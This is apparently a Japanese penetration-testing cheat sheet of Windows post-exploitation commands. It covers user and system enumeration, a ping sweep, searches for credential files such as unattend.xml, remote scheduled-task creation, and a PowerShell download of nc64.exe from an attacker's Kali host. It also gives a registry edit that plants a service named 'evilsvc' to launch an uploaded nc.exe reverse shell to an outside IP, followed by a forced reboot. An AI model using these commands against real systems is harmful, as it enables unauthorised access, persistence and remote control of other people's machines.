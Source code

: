 # windows command

* net XXX

``` bat
    # ユーザ情報
    net user
    または
    wmic USERACCOUNT Get Domain,Name,Sid
    # ログオンとかパスワード条件とか
    net accounts
    # ローカルグループ情報
    net localgroup
```

* tasklist

``` bat
    tasklist /SVC
```

* schtasks

```bat
    # /S: 接続先リモートシステム
    # /U: ユーザ名
    # /P: パスワード
    # /TN: タスク名
    # /SC: スケジュール(1回) 
    # /SD: 開始日
    # /ST: 開始時刻
    # /TR: 実行タスク
    schtasks /Create /S 192.168.xxx.xxx /U <user> /P <password> /TN sample /SC ONCE /SD 1900/01/01 /ST 00:00 /TR C:¥Remote¥test.bat

    # タスクの一覧表示
    schtasks /query /fo list 
```

* システム情報

```bat
    systeminfo
    または
    wmic computersystem LIST full
```

* マウント情報(共有ドライブとか)

``` bat
    mountvol
    共有ドライブ
    powershell -Command "Get-WmiObject -class Win32_Share"
```

* ping sweep

``` bat
    for /l %i in (1,1,255) do @ping -n 1 -w 100 XXX.XXX.XXX.%i | fiond "TTL="
```

* ファイル検索

``` bat
    dir /s *<file_name>*
    または
    wmic DATAFILE where "drive='C:' AND Name like '%<file_name>%'" GET Name,Readable,size /VALUE

    # 検索でよく使うファイルパターン
    *.txt/*.doc/*.xls/*.one/*.cnf/unattend.xml
```

* ファイル転送

``` powershell
    powershell -NoProfile -ExecutionPolicy unrestricted -Command (Invoke-WebRequest -Uri "http://<Remote KaliのIP>:8000/nc64.exe" -OutFile "nc64.exe")
```

* kaliにあるwindowsで実行可能なファイル
  
    `/usr/share/windows-binaries`

* windows reverse shell
  * windowsサービス

``` bat
    #wordpressから[nc.exe]をfile uploadする必要がある。
    reg add HKLM\SYSTEM\CurrentControlSet\Services\evilsvc /t REG_EXPAND_SZ /v ImagePath /d "cmd /c \"C:\inetpub\wwwroot\wordpress\wp-content\themes\twentytwenty\nc.exe 172.31.42.71 4444 -e cmd\"" /f

    #再起動できる場合は再起動
    shutdown /r /t 0
```

* サービス登録

``` batch
    # サービス登録コマンド
    # notepad.exeをシステム起動時に自動起動するサービスを登録するコマンド 
    sc create notepad binpath= "C:¥Windows¥system32¥notepad.exe" start=auto
    # 
    sc qc evilsvc
```
